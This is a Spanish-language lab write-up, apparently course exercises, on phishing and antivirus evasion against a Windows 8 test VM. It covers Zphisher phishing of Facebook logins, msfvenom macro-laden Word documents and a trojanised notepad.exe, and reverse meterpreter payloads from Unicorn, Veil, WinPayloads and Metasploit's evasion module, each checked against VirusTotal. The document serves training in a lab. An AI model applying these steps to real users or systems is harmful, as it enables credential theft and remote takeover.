# EJERCICIOS INGENIERÍA SOCIAL Y HERRAMIENTAS DE EVASIÓN
## Prerrequisitos
* Kali Linux
* Windows 8 Evasion
## Ejercicio 1 - Zphiser y Localxpose
* Realizar un ataque de phishing contra el sistema Windows 8 Evasion para obtener credenciales de Facebook.
* Clonamos `zphisher` desde su repositorio

```bash
git clone --depth=1 https://github.com/htr-tech/zphisher.git
```
* ejecutamos el archivo



* si todo va bien


* Seleccionamos el metodo de phising



* Seleccionamos la opcion tradicional



* Utilizamos `localXpose`, y configuramos el servicio. Por unica vez nos pedira el token debemos iniciar sesion para ello en `https://localxpose.io/`




* Enviamos la url fake



* Usamos la url en la maquina victima



* Despues de colocar las credenciales, se rescarga la pagina, devolviendo la pagian e facebook original, y mostrando las credenciales en la terminal de nuestra kali.



> **NOTA:** Podemos utilizar `maskphish` para generar un enlace enmascarado. 

```bash
git clone https://github.com/jaykali/maskphish
```


## Ejercicio 2 - Msfvenom y Macropack
* Crear un troyano con Msfvenom de tipo Visual Basic Application para despues convertirlo en un documento Word con macros maliciosas.

* Creamos el troyano.vba


* Convertimos en documento word, abrimos `LibreOffice`


* Configuramos para copiar el codigo vba


* Copiamos el codigo generado por `msfvenom`



* Cerramos, y guardamos como documento macros



* Transferimos el archivo, abrimos un servidor


* Desacargamos el documento `malicius` en la maquina victima `windows`


* Utilizar un exploit multi/handler para obtener un meterpreter reverso.

* Colocamos en escucha, Configuramos las opciones



* Ejecutamos el documento en la maquina victima y le damos habilitar



* si todo va bien, tenemos meterpreter



> **NOTA:** Para evitar que la sesión se cierre cuando el usuario cierra o deja de interactura con Word, se debe hacer persistencia con cualquiera de los metodos antes del cierre:

*  probar el docm en virus total.


https://www.elcursodelhacker.com/como-ocultar-un-payload-en-un-documento-de-word/

## Ejercicio 3 - Metasploit y Msfvenom
* A partir de la sesión obtenida anteriormente, crear un troyano que mantenga su comportamiento habitual usando algún archivo ejecutable legítimo del
sistema Windows 8 Evasion con Msfvenom.

* Antes de crear toyano verificamos algunos ejecutables legitimos que podemos usar, En este caso usare `notepad.exe`

```bash
meterpreter > shell
C:\Windows\system32> DIR
```


* Creamos el troyano usando el archivo legitimo, pero antes hacemos una copia del `notepad.exe`





* Demostrar que mantiene su comportamiento habitual ejecutándolo en el sistema Windows 8 Evasion y que crea una nueva sesión mediante un exploit
multi/handler para obtener otro meterpreter reverso.

* trasferimos el `troyano_legitimo.exe` creado



* Nos ponemos en escucha con `multi/hanlder`



* Verificamos que se encuentre el troyano 

```bash
meterpreter > ls C:\\Windows\\Temp
```


*  y lo ejecutamos el `troyano_legitimo`

```bash
meterpreter > execute -f C:\\Windows\\Temp\\troyano_legitimo.exe
```



* Verificamos las sessiones




## Ejercicio 4 - Metasploit
* Crear un troyano que pueda ejecutarse saltando la mayor cantidad posible de test de VirusTotal usando el módulo de evasion de metasploit
windows_defender.

* Iniciar metasploit y seleccionamos el modulo de `windows_defender.exe`



* Seleccionamos el modulo de evacion 3
```bash
msf6 use 3
msf6 evasion(windows/windows_defender_exe) > 
```

* Configuramos y generamos el `troyano`



* Comprobamos en la plataforma de `virus total`


## Ejercicio 5 - Unicorn
* Crear un troyano para Windows que pueda ejecutarse saltando la mayor cantidad posible de test de VirusTotal con Unicorn.
1. Desacragamos la herramienta Unicorn desde su repositorio
````bash
git clone https://github.com/trustedsec/unicorn.git
````

2. Una vez descargado ejecutamos el `unicorn.py`

```bash
cd unicorn/
./unicorn.py
```


3. Generamos un troyano para realizar un ataque de `PowerShell`

```bash
python unicorn.py windows/meterpreter/reverse_tcp 10.0.2.4 4444
```
4. Ahora esto nos dará dos archivos. Uno es un archivo de texto llamado `powershell_attack.txt` que tiene el código de powershell que se ejecutará en la máquina de la víctima utilizando ingeniería social y el otro es `unicorn.rc`, que es un archivo metasploit personalizado que establecerá automáticamente todos los parámetros e iniciará un oyente.



5. Probamos el troyano en `Virus Total`



## Ejercicio 6 - Veil
* Crea un troyano para Windows que pueda ejecutarse saltando la mayor cantidad posible de test de VirusTotal con Veil.



* Listamos los payloads


* Seleccionamos un payloads


* Configuramos opciones



* Generamos el payloads



* Probamos en `virus total`



## Ejercicio 7 - WinPayloads
* Crea un troyano para Windows que pueda ejecutarse saltando la mayor cantidad posible de test de VirusTotal con WinPayloads.

* Instalamos la herramienta con git
```bash
git clone https://github.com/nccgroup/Winpayloads.git
cd Winpayloads
./setup.sh
```

* Instalacion medinate docker

```bash
sudo docker pull charliedean07/winpayloads:latest

# una vez instaldo ejecutar el comando para iniciar
sudo docker run -e LANG=C.UTF-8 --net=host -it charliedean07/winpayloads
```




* Elegimos el payload y configuramos las opciones que nos pide 

